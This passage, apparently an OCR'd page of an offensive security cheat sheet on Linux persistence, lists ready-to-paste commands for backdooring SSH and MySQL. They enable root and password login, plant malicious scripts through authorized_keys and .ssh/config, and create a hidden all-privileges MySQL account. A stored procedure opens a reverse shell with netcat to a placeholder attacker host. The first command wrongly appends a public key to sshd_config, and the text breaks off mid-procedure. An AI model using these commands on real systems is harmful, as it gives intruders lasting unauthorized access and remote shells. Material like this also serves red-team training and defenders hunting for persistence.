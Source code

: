 #### Add SSH Key System-Wide
- **Add SSH Key to `sshd_config`:** Requires Root Permissions
	```bash
	echo "attacker_ssh_public_key" >> /etc/ssh/sshd_config
	```

## SSH Configuration Persistence
Attackers can modify the SSH server configuration to allow unauthorized access.

#### Allow Root Login via SSH
- **Enable SSH Root Login:**
	```bash
	sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config
	service ssh restart
	```

#### Allow Password Authentication via SSH
- **Enables password authentication for SSH access:**  
	```bash
	sed -i 's/#PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config
	service ssh restart
	```

#### Allow Specific User via SSH
- **Modify SSH Configuration to `sshd_config`:** 
	```bash
	echo 'AllowUsers <username>' >> /etc/ssh/sshd_config
	service ssh restart
	```

#### Add Script in `.ssh/authorized_keys`
- **Add Persistent Script `authorized_keys:**
	```c
	echo 'command="/path/to/malicious_script.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> ~/.ssh/authorized_keys
	chmod 600 ~/.ssh/authorized_keys
	```

#### Add Script in `.ssh/config`
- **Add Script in `.ssh/config`:** Executes a local script whenever an SSH connection is made.
	```bash
	echo "Host * \n PermitLocalCommand yes \n LocalCommand /path/to/malicious_script.sh" >> ~/.ssh/config
	```

# Database-Based Persistence

#### SQL Backdoors
- **Create a Malicious MySQL User:**
	```sql
	CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password';
	GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
	```
- **Create a Persistent MySQL Procedure:**
	```sql
	DELIMITER //
	CREATE PROCEDURE persist_shell() 
	BEGIN 
	    DECLARE cmd CHAR(255); 
	    SET cmd='nc -e /bin/bash <attacker_ip> <attacker_port>';
	    DO SYSTEM(cmd); 
	END //